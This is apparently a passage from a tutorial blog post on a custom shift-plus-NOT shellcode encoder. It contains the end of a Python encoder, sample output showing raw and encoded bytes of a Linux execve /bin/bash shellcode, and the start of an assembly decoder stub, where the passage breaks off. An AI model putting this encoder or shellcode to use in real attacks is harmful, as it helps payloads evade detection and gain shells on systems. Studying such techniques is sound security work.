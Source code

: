 ``` python
        encodedOut1 += '\\x%02x' % (tmp)
        encodedOut2 += '%02x' % (tmp)
        encodedOut3 += '0x%02x,' % (tmp)
        encoded.append(tmp)

# Simple decoder
# Does the inverse of above
for byte in bytearray(encoded):

    if (byte < maxVal):
        tmp = (~byte  - addVal)&0xff
        encoded2 += '\\x%02x' % (tmp)
    else:
        tmp = (addVal + maxVal - ~byte)&0xff
        encoded2 += '\\x%02x' % (tmp)

l1 = len(bytearray(shellcode))

print("Original shellcode (%s bytes): \n%s\n") % (str(l1), orig)
print("Shift %s + NOT Encodings:\n") % (int(addVal))

print("%s\n") % (encodedOut1)
print("0x%s\n") %(encodedOut2)
print("%s\n") % (encodedOut3)
print("Unshift (should be orig): \n%s\n") % (encoded2)
```

Here's some sample output:

```
$ ./encoder.py 12
Original shellcode (30 bytes): 
\x31\xc0\x50\x68\x62\x61\x73\x68\x68\x62\x69\x6e\x2f\x68\x2f\x2f\x2f\x2f\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80

Shift 12 + NOT Encodings:

\xc2\x33\xa3\x8b\x91\x92\x80\x8b\x8b\x91\x8a\x85\xc4\x8b\xc4\xc4\xc4\xc4\x6a\x10\xa3\x6a\x11\xa0\x6a\x12\x43\xe8\x26\x73

0xc233a38b9192808b8b918a85c48bc4c4c4c46a10a36a11a06a1243e82673

0xc2,0x33,0xa3,0x8b,0x91,0x92,0x80,0x8b,0x8b,0x91,0x8a,0x85,0xc4,0x8b,0xc4,0xc4,0xc4,0xc4,0x6a,0x10,0xa3,0x6a,0x11,0xa0,0x6a,0x12,0x43,0xe8,0x26,0x73,

Unshift (should be orig): 
\x31\xc0\x50\x68\x62\x61\x73\x68\x68\x62\x69\x6e\x2f\x68\x2f\x2f\x2f\x2f\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80
```

Now, here's the shellcode I came up with.

```
global _start

section .text

_start:
        ; Ye ol' jmpy cally popy
        jmp short call_shellcode

decode:

        ; pop the location of encodedShellcode into EDI
        pop edi
```